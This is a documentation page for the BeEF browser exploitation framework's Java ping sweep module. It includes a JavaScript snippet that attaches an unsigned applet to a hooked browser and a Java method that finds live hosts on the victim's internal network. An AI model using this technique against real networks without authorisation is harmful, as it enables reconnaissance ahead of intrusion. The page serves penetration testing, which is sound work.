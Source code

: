 ## Summary

* **Objective**: Perform a ping sweep of the network via Java
* **Authors**: antisnatchor
* **Browsers**: Safari, Opera, IE

* [Code](https://github.com/beefproject/beef/tree/master/modules/network/ping_sweep_java)

## Internal Working

Uses an unsigned Java applet to ping hosts in the network.

>- the user will be prompted for permissions to run an unsigned java applet
>- unsigned appletes don't run at all for later Java and Browser versions

snippet from command.js
```js

beef.dom.attachApplet('pingSweep', 'pingSweep', 'pingSweep', beef.net.httpproto+"://"+beef.net.host+":"+beef.net.port+"/", null, [{'ipRange':ipRange, 'timeout':timeout}]);

```

java snippet
```java
private static String checkHosts(List<InetAddress> inetAddresses) throws IOException {
    String alive = "";
    for (InetAddress inetAddress : inetAddresses) {
        if (inetAddress.isReachable(timeout)) {
            alive += inetAddress.toString() + "\n";
        }
    }
    return alive;
}
```

## Screenshots

[[Images/module-ping-sweep-java1.png|align=center]]


## Feedback
